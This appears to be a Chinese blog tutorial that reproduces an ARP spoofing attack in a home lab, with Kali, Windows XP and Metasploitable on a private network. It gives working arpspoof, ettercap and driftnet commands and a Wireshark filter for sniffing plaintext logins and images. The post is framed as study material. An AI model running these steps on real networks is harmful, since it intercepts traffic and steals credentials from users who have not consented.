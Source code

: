 ```yaml
---
layout:     post
title:      arp欺骗
subtitle:   arpspoof+ettercap+driftnet
date:       2019-05-26
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - spoof
    - arp欺骗
    - arp嗅探
    - 内网渗透
---
```


# arp欺局

**arp欺骗是在局域网环境下，会碰到且门槛极低，危害又高的一种攻击方式，这里做一个简单复现，仅供学习参考！**

### 实验环境：

* **kali**  IP：192.168.43.138
* **winXP** IP：192.168.43.188
* **Metasploitable**  IP：192.168.43.149
* **网关**  IP：192.168.43.1

`在arp欺骗的过程中，攻击机通过欺骗，将被攻击机的数据包截获，如果开启了ip转发，则会再转发给网关或者目标ip，这样就不会断网，如果不开启ip转发，截获数据包之后没有返回则会造成断网`

### 第一步：

* 首先在攻击机kali上开启ip转发

  * `echo 1 >/proc/sys/net/ipv4/ip_forward` 如果设为0则不转发，造成断网

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526224838.png)

### 第二步：

* 使用arpspoof指定eth0这块网卡，将自己伪装成ip为192..168.43.1的网关，欺骗ip为192.168.43.188的winxp

  * `arpspoof -i eth0 -t 192.168.43.188 192.168.43.1`

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526225327.png)

* 上述只是单方面欺骗网关，一般情况下都是双向欺骗（欺骗网关我是xp，欺骗xp我是网关）

  * `arpspoof -i eth0 -t 192.168.43.188 192.168.43.1 -r`使用-r参数即可

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526225550.png)

### 第三步：

* 使用winxp访问msf的ip，并登陆dvwa

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526225646.png)

### 第四步：

* 使用ettercap攻击截获eth0网卡中传输数据包中的明文账号密码信息

  * `ettercap -Tq -i eth0`

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526225856.png)

* 使用driftnet截获eth0网卡传输中的的图片

  * `driftnet -i eth0`

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230038.png)

  * 可以看到截获的明文账号密码信息

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230355.png)

  

  * 在xp上访问图片网页

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230052.png)

  * 在kali上driftnet的图片查看工具上可以看到截获的图片

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230220.png)

### 第五步：

* 当然也可以使用wireshark查看截获到所有数据包的详细数据信息以做分析

  * `http && ip.addr==192.168.43.188` 使用过滤的相关参数，过滤掉多余的信息

    > 关于wireshark的过滤语法，回头找机会单写一篇详细些的文章

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230751.png)

  * 查看POST包中的信息

  ​              ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190526230917.png)

  * 可以看到数据包中的详细账号密码信息

